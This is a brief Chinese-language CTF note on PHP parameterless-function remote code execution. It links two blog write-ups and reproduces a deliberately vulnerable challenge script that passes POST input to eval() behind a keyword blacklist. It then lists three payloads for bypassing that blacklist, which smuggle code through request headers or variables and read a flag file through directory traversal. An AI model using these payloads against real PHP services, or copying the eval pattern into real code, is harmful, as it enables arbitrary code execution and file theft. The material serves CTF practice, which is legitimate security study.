

比较详细<br />[https://www.cnblogs.com/pursue-security/p/15406272.html](https://www.cnblogs.com/pursue-security/p/15406272.html)<br />对变量的利用进行了补充，对php读取进行了补充<br />[https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/)<br />
```python
<?php
highlight_file(__FILE__);
if ($_POST['cmd']) {
    $cmd = $_POST['cmd'];
    if (';' === preg_replace('/[a-z_]+\((?R)?\)/', '', $cmd)) {
        if (preg_match('/file|if|localeconv|phpversion|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log|var_dump|pos|current|array|time|se|ord|uniqid|implode|scandir|hebrevc/i', $cmd)) {
            die('老实点');
        } else {
            eval($cmd);
        }
    } else {
        die('请重新输入');
    }
}
```

# 无参rce的一些payload
```php
call_user_func(...unserialize(end(getallheaders())));
```
```php
?code=eval(next(current(get_defined_vars())));&paylaod=readfile("../flag_phpbyp4ss");
```
```php
readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))));
```
